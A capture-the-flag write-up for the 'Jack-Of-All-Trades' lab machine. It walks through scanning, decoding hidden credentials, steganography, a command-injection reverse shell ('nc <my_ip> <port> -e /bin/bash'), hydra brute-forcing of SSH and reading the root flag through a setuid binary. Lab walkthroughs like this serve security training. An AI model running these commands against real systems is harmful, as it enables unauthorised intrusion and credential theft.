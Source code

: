 # Jack-Of-All-Trades Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- http: 22. Apache httpd 2.4.10 ((Debian))
- ssh: 80. OpenSSH 6.7p1 Debian 5.

None of the versions appear to be vulnerable.


## HTML page

Strangely, it seems the usual ports for http and ssh have been reversed. Firefox attempted to block the connection to the webserver on port 22, so I had to change the blocker settings in about:config in order for it to allow the connection.

The source code for the home page contains the comment:
```
UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== 
```

Putting this into the base64 command returns the decoded text as:
```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```
So now we have a password **u?WtKSraq**


## Gobuster

```
gobuster dir -e -u http://<ip>:22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```

Interesting directories:
- **/recovery.php**
- **/assets**

recovery.php contains a login page, with the displayed message *Hello Jack! Did you forget your machine password again?..*. Viewing the source code finds the comment:

```
GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ= 
```

Through some trial and error and the *CyberChef* tool, I managed to decode the comment with base32, followed by hex, and finally ROT13. This gave the message as:

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

The link leads to a Wikipedia page on Stegosauria, so I went back to the /assets directory and downloaded the images to look for hidden content.


## Steganography

```
wget http://<ip>:22/assets/stego.jpg
steghide extract -sf stego.jpg 
```

Using the password from the home page's source code as the passphrase, a *creds.txt* file was extracted from the image. It reads:
```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

Oops. I repeated this for the other images in the /assets directory, and finally found:
```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

This now allows me to login into the site at /recovery.php with these credentials.
The text on the page reads *GET me a 'cmd' and I'll run it for you Future-Jack.*


## RCE & Privilege Escalation to jack

I added a 'cmd' parameter to the site and immediately got code execution. 
```
http://<ip>:22/nnxhweOV/index.php?cmd=nc <my_ip> <port> -e /bin/bash
```

Using netcat I was then able to get a reverse shell on my machine. Now stabilise it:
```
python -c "import pty; pty.spawn('/bin/bash')"
Ctrl-Z
stty raw -echo; fg
reset
```

I then found an interesting password list in /home: **jacks_password_list**. I downloaded this onto my machine and used it to brute force ssh.

```
hydra -l jack -P jacks_password_list 10.10.216.3 ssh -s 80
```

Now we have the credentials! ***jack : ITMJpGGIqg1jn?>@***.
This revealed the first user flag in the image user.jpg.


## Privilege escalation to root

I tried the usual escalation vectors, and found an interesting setuid binary **/usr/bin/strings**. This let me run the following command:

```
strings /root/root.txt
```
And this gave me the root flag :)

I did briefly attempt to get a shell as root by reading /etc/shadow, but the hash wasn't easily crackable so I figured this isn't intended or necessary.